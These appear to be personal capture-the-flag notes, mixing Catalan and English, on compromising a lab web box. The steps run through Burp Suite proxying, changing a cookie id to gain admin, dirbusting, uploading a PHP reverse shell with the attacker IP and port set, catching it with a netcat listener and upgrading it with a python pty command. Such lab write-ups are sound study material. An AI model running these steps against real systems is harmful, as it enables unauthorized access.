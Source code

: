 # Principal
proxy per interceptar tràfic web (Fer explicació)

https://www.youtube.com/watch?v=YmZLdJRBKv0&t=3953s&ab_channel=S4viOnLive 43:07 sudo

Mirar info sobre cookies

Maybe file inclusion? For later?

# Process
1. Common enumeration.
2. Use Burp Suite to find new directories.
3. Manipulate cookies to be admin and upload files.
4. Dirbust the site to find where are the uploads located.
5. Upload reverse shell 


# Burpsuite
1. Configure Firefox to send traffic trought the proxy.
2. Settings > Search "Proxy" > Settings.
3. Change to Manual proxy. Enter Loopback @IP and port 8080
4. Disable interception in Burp as it's 
5. Proxy > Intercept > Intercept in on (Disable)

# Cookies 
Found that admin was id=34322 so change the Guest id to simulate he's the admin.
![[Pasted image 20220530192240.png]]

# Reverse Shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`
Change port and ip. Upload the file. Dirbust the site again to find `.php`.
```bash
$ip = '10.10.15.56';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```